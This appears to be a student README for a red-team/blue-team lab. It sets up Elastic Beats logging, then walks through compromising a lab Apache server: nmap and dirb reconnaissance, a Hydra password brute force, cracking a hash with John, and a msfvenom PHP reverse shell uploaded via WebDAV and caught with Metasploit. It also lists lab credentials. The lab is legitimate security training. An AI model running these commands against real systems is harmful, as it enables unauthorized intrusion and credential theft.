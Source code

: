 # Project 2
## RedTeam vs. BlueTeam


### Devices
- Kali
- Capstone
- Elk 

### Set Up Beats 
Need to set up beats in order to log the attacks. 

Steps to set up:
 - Log into Capstone
   - ```vagrant:tnargav```
 - ```sudo su```
 - ```filebeat modules enable apache```
 - ```filebeat setup```
 - ```metricbeat modules enable apache```
 - ```metricbeat setup```
 - ```packetbeat setup```
 - ```systemctl restart filebeat```
 - ```systemdtl restart metricbeat```
 - ```systemctl restart packetbeat```
  

### Attacking Capstone
- Determine capstone ip
  - First find kali ip
    - ```ifconfig```
    - 192.168.1.90
  - Run nmap against 192.168.1.1/24 
    - ```nmap 192.168.1.1/24```
    - Did not give enough information to determine what machine is which
    - ![](Img/nmap1.png)
    - ```nmap -sV 192.168.1.1/24```
      - 192.168.1.100 
        - Elastic Search | Ubuntu
      - 192.168.1.105
        - Apache | Ubuntu
      - ![](Img/nmap2.png)
- Open http://192.168.1.105
  - Try to find "secret" page
    - ```dirb http://192.168.1.105```
      - Returned
        - http://192.168.1.105/server-status
          - Access Forbidden
        - http://192.168.1.105/webdav
          - Username:Password Protected
    - ```dirb http://192.168.1.105/company_folders```
      - Returned 0
    - Scrolled through pages
      - Error file missing please refer to company_folders/secret_folder
       ![](/Img/web4.png)
- Run Hydra against http://192.168.1.105/company_folders_secret_folder
  - Find Wordlist
    - ```locate rockyou```
  - ```cd /usr/share/wordlists```
  - ```ls```
  - ```gunzip rockyou.txt.gz```
  - ```ls```
    - to verify successful unzip
  - ```hydra help```
    - To see all avaliable flags
  - Ashton manages secret folder
    - Means username is ashton 
  - ``` hydra -l ashton -P rockyou.txt -s 80  -f -vV 192.168.1.105 http-get /company_folders/secret_folder ```
    - ```ashton:leopoldo```
     ![](/Img/hydra2.png)
- Open connect to corp server
  - webdav
  - log in with ryans account
  - ryan password hash ``` d7dad0a5cd7c8376eeb50d69b3ccd352 ```
  - ``` echo d7dad0a5cd7c8376eeb50d69b3ccd352 > hash.txt ```
  - ```john hash.txt```
  - ```john -show hash.txt ```
    - ```ryan:linux4u```
- Upload reverse php to webdav
  - ```msfvenom -p php/reverse_php LHOST=192.168.1.90 LPORT=4445 -f raw > exploit.php```
    ![](Img/msfvenom1.png)
- Create Listener
  - ```msf console```
    - ```use exploit multi/handler```
    - ``` set LHOST 192.168.1.90```
    - ``` set LPORT 4445```
    - ```set exploit php/reverse_php```
    - ```exploit```
    - ![](Img/msfvenom2.png)
- Open exploit.php in web to run on remote server
- Meterpreter session
  - ```cd /```
  - ```ls```
  - ```cat flag.txt```
  - ![](Img/flag.txt)